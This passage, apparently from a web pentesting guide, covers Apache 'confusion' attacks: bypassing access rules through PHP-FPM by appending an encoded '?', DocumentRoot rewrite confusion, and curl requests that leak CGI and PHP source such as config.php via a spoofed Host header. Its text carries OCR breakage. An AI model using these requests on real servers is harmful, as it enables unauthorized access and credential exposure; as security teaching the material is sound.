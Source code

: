 ```
    AuthUserFile "/etc/apache2/.htpasswd"
    Require valid-user
</Files>
```
```
This is because by default PHP-FPM will receive URLs ending in `.php`, like `http://server/admin.php%3Fooo.php` and because PHP-FPM will remove anything after the character `?`, the previous URL will allow to load `/admin.php` even if the previous rule prohibited it.

### DocumentRoot Confusion

```bash
DocumentRoot /var/www/html
RewriteRule  ^/html/(.*)$   /$1.html
```
```
A fun fact about Apache is that the previous rewrite will try to access the file from both the documentRoot and from root. So, a request to `https://server/abouth.html` will check for the file in `/var/www/html/about.html` and `/about.html` in the file system. Which basically can be abused to access files in the file system.

#### **Server-Side Source Code Disclosure**

- **Disclose CGI Source Code**

Just adding a %3F at the end is enough to leak the source code of a cgi module:

```bash
curl http://server/cgi-bin/download.cgi
 # the processed result from download.cgi
curl http://server/html/usr/lib/cgi-bin/download.cgi%3F
 # #!/usr/bin/perl
 # use CGI;
 # ...
 # # the source code of download.cgi
```
```
- **Disclose PHP Source Code**

If a server has different domains with one of them being a static domain, this can be abused to traverse the file system and leak php code:

```bash
# Leak the config.php file of the www.local domain from the static.local domain
curl http://www.local/var/www.local/config.php%3F -H "Host: static.local"
 # the source code of config.php
```
```
#### **Local Gadgets Manipulation**

The main problem with the previous attack is that by default most access over the filesystem will be denied as in Apache HTTP Server’s [[https://github.com/apache/httpd/blob/trunk/docs/conf/httpd.conf.in#L115|configuration template]]:

```xml

    AllowOverride None
    Require all denied
</Directory>
```
```
However, [[https://sources.debian.org/src/apache2/2.4.62-1/debian/config-dir/apache2.conf.in/#L165|Debian/Ubuntu]] operating systems by default allow `/usr/share`:

```xml
<Directory /usr/share>
```